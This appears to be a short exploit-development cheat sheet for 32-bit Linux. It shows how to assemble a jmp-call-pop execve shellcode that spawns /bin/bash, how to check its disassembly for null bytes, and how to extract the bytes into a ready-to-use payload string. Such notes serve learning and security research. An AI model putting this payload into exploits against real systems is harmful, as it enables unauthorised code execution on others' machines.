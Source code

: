 # Shellcode

## Compile a NASM file 
### Commands
```
nasm -f elf32 -o file.o file.nasm
ld -z execstack -o file file.o
```
## Check if they are some null bytes in the shellcode
### Command
```
objdump -d execve -M intel
```
### Output
```
execve:     file format elf32-i386


Disassembly of section .text:

08048080 <_start>:
 8048080:	eb 07                	jmp    8048089 <stage_1>

08048082 <stage_2>:
 8048082:	5b                   	pop    ebx
 8048083:	31 c0                	xor    eax,eax
 8048085:	b0 0b                	mov    al,0xb
 8048087:	cd 80                	int    0x80

08048089 <stage_1>:
 8048089:	e8 f4 ff ff ff       	call   8048082 <stage_2>

0804808e <shell>:
 804808e:	2f                   	das    
 804808f:	62 69 6e             	bound  ebp,QWORD PTR [ecx+0x6e]
 8048092:	2f                   	das    
 8048093:	62 61 73             	bound  esp,QWORD PTR [ecx+0x73]
 8048096:	68                   	.byte 0x68
```

## Get a shellcode format from the objdump output
### Command
```
objdump -d ./execve|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
```
### Output
```
"\xeb\x07\x5b\x31\xc0\xb0\x0b\xcd\x80\xe8\xf4\xff\xff\xff\x2f\x62\x69\x6e\x2f\x62\x61\x73\x68"
```

## Important resssouces
* [Intel manual](https://www.intel.com/content/dam/www/public/us/en/documents/manuals/64-ia-32-architectures-software-developer-instruction-set-reference-manual-325383.pdf)